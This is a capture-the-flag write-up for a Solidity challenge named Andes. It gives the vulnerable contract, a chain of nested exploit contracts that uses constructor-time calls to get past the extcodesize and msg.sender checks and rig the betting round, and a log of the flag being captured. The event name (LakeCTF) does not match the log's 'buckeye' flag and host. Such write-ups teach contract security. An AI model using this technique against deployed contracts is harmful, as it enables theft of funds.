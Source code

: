 ```yaml
---
published: 2022-11-11
title: Andes

---
```


Andes is the second of the two Web3 challenges featured in the LakeCTF 2022.

At a first glance the contract may seem extremely lengthy and quirky

```Solidity
contract Andes {
    // designators can designate an address to be the next random
    // number selector
    mapping (address => bool) designators;
    mapping (address => uint) balances;

    address selector;
    uint8 private nextVal;
    address[8][8] bids;

    event Registered(address, uint);
    event RoundFinished(address);
    event GetFlag(bytes32);

    constructor(){
        designators[msg.sender] = true;
        _resetBids();
    }

    function isDesignator(address _address) public view returns(bool){
        return designators[_address];
    }

    modifier onlyDesignators() {
        require(designators[msg.sender] == true, "Not owner");
        _;
    }

    function register() public {
        require(balances[msg.sender] < 10);
        
        balances[msg.sender] = 50;

        emit Registered(msg.sender, 50);
    }

    function setNextSelector(address _selector) public onlyDesignators {
        require(_selector != msg.sender);
        selector = _selector;
    }

    function setNextNumber(uint8 value) public {
        require(selector == msg.sender);
        
        nextVal = value;
    }

    function _resetBids() private {
        for (uint i = 0; i < 8; i++) {
            for (uint j = 0; j < 8; j++) {
                bids[i][j] = address(0);
            }
        }
    }

    function purchaseBid(uint8 bid) public {
        require(balances[msg.sender] > 10);
        require(msg.sender != selector);

        uint row = bid % 8;
        uint col = bid / 8;

        if (bids[row][col] == address(0)) {
            balances[msg.sender] -= 10;
            bids[row][col] = msg.sender;
        }
    }

    function playRound() public onlyDesignators {
        address winner = bids[nextVal % 8][nextVal / 8];

        balances[winner] += 1000;
        _resetBids();

        emit RoundFinished(winner);
    }

    function getFlag(bytes32 token) public {
        require(balances[msg.sender] >= 1000);

        emit GetFlag(token);
    }

    function _canBeDesignator(address _addr) private view returns(bool) {
        uint size = 0;

        assembly {
            size := extcodesize(_addr)
        }

        return size == 0 && tx.origin != msg.sender;
    }

    function designateOwner() public {
        require(_canBeDesignator(msg.sender));
        require(balances[msg.sender] > 0);
        
        designators[msg.sender] = true;
    }

    function getBalance(address addr) public view returns(uint) {
        return balances[addr];
    }
}
```

However we can easily point out the nevralgic parts:

We have a `GetFlag` method that requires the caller to have 1000 coins in the balance mapping.

In order to increase our balance we should win a round

```Solidity
function playRound() public onlyDesignators {
        address winner = bids[nextVal % 8][nextVal / 8];

        balances[winner] += 1000;
        _resetBids();

        emit RoundFinished(winner);
    }
```

In order to win the round we should put a bet on the correct `nextVal`, however this operation can only be performed by the selector, and the selector can only be picked by a designator

```Solidity
  function setNextSelector(address _selector) public onlyDesignators {
      require(_selector != msg.sender);
      selector = _selector;
  }

  function setNextNumber(uint8 value) public {
      require(selector == msg.sender);
      
      nextVal = value;
  }
```

So basically we will need to build a matrioska of Contracts in order to bypass the various checks:

`extcodesize(_addr) == 0` should prevent non-human wallets, however also code in contracts contructor have the codesize set to zero.

Similarly, everytime we need to bypass a `msg.sender` we can create a child contract to use it as a proxy

```Solidity
contract ExploitGrandpa{
  
    Andes targetContract;
    constructor(address targetAddress) {
        targetContract = Andes(targetAddress);
    }
    function setNextNumber() public{
        targetContract.setNextNumber(1);
    }
    
}

contract ExploitFather{
    Andes public targetContract;
    ExploitGrandpa grandpaContract;

    constructor(address targetAddress) {
        targetContract = Andes(targetAddress);
        targetContract.register();
        targetContract.designateOwner();
        grandpaContract = new ExploitGrandpa(targetAddress);
        targetContract.setNextSelector(address(grandpaContract));
        grandpaContract.setNextNumber();
        targetContract.purchaseBid(1);
        targetContract.playRound();

    }
    function getAddress() public view returns(address){
        return address(this);
    }
    function getFlag(bytes32 token) public {
        targetContract.getFlag(token);
    }
    
}

contract ExploitSon{
    ExploitFather fatherContract;
    Andes targetContract;
    constructor(address targetAddress) {
        targetContract = Andes(targetAddress);
        fatherContract = new ExploitFather(targetAddress);

    }
    function getFatherExploitAddress() public view returns(address){
        return fatherContract.getAddress();
    }
    function getFlag(bytes32 token) public {
        fatherContract.getFlag(token);
    }
    
}
```

  

  

```Bash
$ Connection to nile.chall.pwnoh.io port 13378 [tcp/*] succeeded!
> Hello! The contract is running at 0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500 on the Goerli Testnet.
> Here is your token id: 0xf3f5a1a3bfe698a0de59eab124cfa2fb
> Are you ready to receive your flag? (y/n)
$ y
> Here is the flag: buckeye{n3v3r_g4mbl1ng_4g41n}
```